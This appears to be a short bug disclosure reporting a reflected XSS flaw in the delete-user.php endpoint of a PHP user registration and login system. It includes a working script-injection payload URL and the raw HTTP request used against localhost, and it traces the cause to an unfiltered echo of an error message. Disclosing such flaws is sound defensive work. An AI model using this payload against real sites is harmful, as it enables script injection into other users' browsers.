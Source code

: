 ## User Registration and Login System by rems has xss (Reflected XSS)

BUG_Author: hlhyp

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html



Vulnerability File: /endpoint/delete-user.php





[+] payload: /endpoint/delete-user.php?user=1'"()%26%25<zzz><ScRiPt%20>alert(%27this%20has%20xss%27)</ScRiPt>
```
GET /endpoint/delete-user.php?user=1'"()%26%25<zzz><ScRiPt%20>alert(%27this%20has%20xss%27)</ScRiPt> HTTP/1.1
Referer: http://127.0.0.1/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 127.0.0.1
Connection: Keep-alive

```
![Alt text](image.png)

Causes of vulnerabilities：

endpoint\delete-user.php -> line32 -> echo "Error: " . $e->getMessage();

echo error message without filtering resulted in xss